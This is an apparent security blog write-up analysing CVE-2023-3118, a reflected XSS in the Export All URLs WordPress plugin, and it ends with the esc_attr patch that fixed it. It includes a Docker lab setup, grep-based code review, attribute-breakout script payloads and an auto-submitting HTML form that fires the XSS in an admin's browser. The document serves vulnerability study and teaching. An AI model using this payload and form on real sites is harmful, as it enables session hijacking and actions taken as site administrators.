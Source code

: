 ```yaml
---
title: "CVE-2023-3118 - Export All URLs < 4.6 - Reflected XSS"
draft: false
tags: ["cve_analysis"]
categories: ["Web Security"]
weight: 4
---
```

![Description of Image](/images/cve-2023-3118/cve-poster.png)

## On this page

- [Description](#description)
- [Lab Setup](#lab-setup)
- [WhiteBox Testing](#whitebox-testing)
- [Patch Diffing](#patch-diffing)
- [Resources](#resources)

### Description
The Export All URLs WordPress plugin before 4.6 does not sanitise and escape a parameter before outputting them back in the page, leading to a Reflected Cross-Site Scripting which could be used against high privilege users such as admin

![Description of Image](/images/cve-2023-3118/cve-2023-3118-security.png)

### Lab-Setup
```sh
mkdir cve-2023-3118
```
create `docker-compose.yml` file
```php
version: '3.8'

services:
  db:
    image: mysql:5.7
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MySQLP@ssw0rd
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress
      MYSQL_PASSWORD: wordpress

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress
      WORDPRESS_DB_PASSWORD: wordpress
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
  ```
  then run `docker-compose up` to run the image
![Description of Image](/images/cve-2023-3118/docker-compose-up.png)

When you go to <http://localhost:8000/> you will see the wordpress installation page
![Image](/images/cve-2023-23489/wordpress-install.png)
![Image](/images/cve-2023-23489/wordpress-install2.png)
<br>
![Image](/images/cve-2023-23489/wordpress-plugins.png)
<br>
![Image](/images/cve-2023-23489/upload-plugins.png)
I searched for `easy digital downloads`
![Image](/images/cve-2023-3118/export-all-urls-search.png)
<br>
![Image](/images/cve-2023-3118/wordpress-export-all-urls-search.png)
Go to Advanced View Section
![Image](/images/cve-2023-3118/AdvancedView-export-all-urls-search.png)

The description of the vulnerability states that versions below 4.6 are vulnerable. We will download both 4.5 and 4.6 to analyze the patch for the vulnerability.
![Image](/images/cve-2023-3118/export-all-urls-Development-Version.png)
![Image](/images/cve-2023-3118/ls-files.png)

Let's upload the vulnerable plugin to WordPress. Press the "Browse" button and choose export-all-urls.4.5.zip
 ![Image](/images/cve-2023-23489/upload2.png)
Then press on the `Install Now` Button
 ![Image](/images/cve-2023-23489/install-plugin1.png)
 Then press on the `Activate Plugin` Button
 ![Image](/images/cve-2023-3118/activate-plugin.png)
The plugin was installed successfully.
![Image](/images/cve-2023-3118/plugin-ins.png)

### WhiteBox Testing
I will test the vulnerable version as we don't know where the vulnerability is located
![Image](/images/cve-2023-3118/ls-files2.png)
First, I will search for all `GET` methods in PHP files to see if any can be exploited.
```php
grep --color=always -r '$_GET' --include="*.php" .
```
The line that appears in the output is used in WordPress security to verify a nonce (a number used once) and prevent CSRF (Cross-Site Request Forgery) attacks, so it is not useful for exploitation.
![Image](/images/cve-2023-3118/grep-get.png)

Let's now search for all `POST` Methods
```php
grep --color=always -r '$_POST' --include="*.php" .
```
As you see from the output the `sanitize_text_field`  & `sanitize_file_name` functions are used in many lines. [sanitize_text_field()](https://developer.wordpress.org/reference/functions/sanitize_text_field/) is a WordPress built-in function that sanitize user input. [sanitize_file_name](https://developer.wordpress.org/reference/functions/sanitize_file_name/) is a WordPress built-in function that sanitizes a filename, replacing whitespace with dashes.

![Image](/images/cve-2023-3118/grep-post1.png)
So the `POST` Methods that are inside `sanitize_text_field` & `sanitize_file_name` functions is useless to us.
<br>
Let's remove the lines that contain this function.
```php
grep --color=always -r '$_POST' --include="*.php" . | grep -v 'sanitize_text_field'
```
There are two interesting lines that accept user input and print it as it is without any sanitization.
![Image](/images/cve-2023-3118/xss1.png)
```php
<?php echo isset($_POST['starting-point']) ===> Print starting-point value
<?php echo isset($_POST['ending-point'])   ===> Print ending-point value
```
When user input is submitted as is, the first vulnerability that comes to mind is [XSS](https://owasp.org/www-community/attacks/xss/)
<br>
Let's see if we can exploit this
I will go to the plugin location from `Tools`
![Image](/images/cve-2023-3118/plugin-installed.png)
Then press on `Show Filter Options` and `Show Advanced Options` to see all the available inputs
![Image](/images/cve-2023-3118/plugin-page1.png)
I want to find the location of POST Parameters `starting-point` & `ending-point` at this page
<br>
`Right Click - View Page Source` ( CTRL + U )
<br>
And search for keyword `starting-point`. You will find it's under `Number of Posts` keyword
![Image](/images/cve-2023-3118/search-starting-point.png)

To confirm that, press `F12` to inspect the page. If you click on the box near the word `From`, you will find it corresponds to the `starting-point` POST parameter, and the box near `To` corresponds to the `ending-point` POST parameter.
![Image](/images/cve-2023-3118/starting-ending-point-locations.png)
Let's enter any values and then press `Export Now` Button
![Image](/images/cve-2023-3118/endpoint-locations2.png)
I intercepted the request with BurpSuite
![Image](/images/cve-2023-3118/burpintercept1.png)

Let's see how we can exploit this vulnerability. From page source this is where the `starting-point` & `ending-point` values are located

 - <span style="color: red;">From: <input type=&quot;number&quot; name=&quot;starting-point&quot; placeholder=&quot;0&quot; value="</span><span style="color: blue;">{starting-point-User-Input}</span><span style="color: red;">&quot;&gt;</span>

-  <span style="color: red;">To: <input type=&quot;number&quot; name=&quot;ending-point&quot; placeholder=&quot;500&quot; value="</span><span style="color: blue;">{ending-point-User-Input}</span><span style="color: red;">&quot;&gt;</span>
So we need to <span style="color: green;">close the tags</span> and put our <span style="color: blue;">payload</span>.
<br>
Our First payload with the closed tags will be like that 
<br>
<span style="color: red;">From: <input type=&quot;number&quot; name=&quot;starting-point&quot; placeholder=&quot;0&quot; value="</span><span style="color: green;">&quot;></span><span style="color: blue;">&lt;script&gt;alert(/XSS-starting-point/)&lt;/script&gt;</span><span style="color: green;">&lt;&quot;</span><span style="color: red;">&quot;&gt;</span>
<br>
Our Second payload with the closed tags will be like that 
<br>
<span style="color: red;">To: <input type=&quot;number&quot; name=&quot;ending-point&quot; placeholder=&quot;500&quot; value="</span><span style="color: green;">&quot;></span><span style="color: blue;">&lt;script&gt;alert(/XSS-ending-point/)&lt;/script&gt;</span><span style="color: green;">&lt;&quot;</span><span style="color: red;">&quot;&gt;</span>
<br>
Let's test this by sending our intercepted request in BurpSuite to the Repeater tab. 
![Image](/images/cve-2023-3118/request-repeater1.png)
Then Right Click and choose `Show response in browser`
![Image](/images/cve-2023-3118/request-repeater2.png)
Copy the given url and submit it in the browser. As you can see, the XSS is triggered
![Image](/images/cve-2023-3118/xss1-1.png)

![Image](/images/cve-2023-3118/xss2.png)

We can automate this process by putting this HTML code in any page
```php
<body onload="document.forms[0].submit()">
    <form action="http://localhost:8000/wp-admin/tools.php?page=extract-all-urls-settings" method="POST">
        <input type="hidden" name="starting-point" value='"><script>alert(/XSS-starting-point/)</script>' />
        <input type="hidden" name="ending-point" value='"><script>alert(/XSS-ending-point/)</script>' />
        <input type="submit" value="submit">
    </form>
</body>
```
Go to Pages - Add New Page
![Image](/images/cve-2023-3118/new-page1.png)
Press on the ➕ Sign and type html in the search box and choose `Custom HTML` 
![Image](/images/cve-2023-3118/new-page2.png)
Then put our html code and press `Publish`
![Image](/images/cve-2023-3118/publish-page1.png)
Go to Pages and view the page where we placed our payload.
![Image](/images/cve-2023-3118/pages-view1.png)
As you see the XSS is triggered to anyone who visits this page 
![Image](/images/cve-2023-3118/xss-view-page1.png)

![Image](/images/cve-2023-3118/xss-view-page2.png)

### Patch Diffing
Now, Let’s take a look at the patch that used to prevent the vulnerability, We can see the patch information on wordpress from [here](https://plugins.trac.wordpress.org/changeset?old_path=%2Fexport-all-urls%2Ftags%2F4.6&old=2990491&new_path=%2Fexport-all-urls%2Ftags%2F4.5&new=2926489&sfp_email=&sfph_mail=). As we can see, the vulnerable `POST` methods have been placed inside `esc_attr`, which is used for escaping HTML attributes.
![Image](/images/cve-2023-3118/patch-diff1.png)

### Resources
https://nvd.nist.gov/vuln/detail/CVE-2023-3118
https://wpscan.com/vulnerability/8a9efc8d-561a-42c6-8e61-ae5c3be581ea/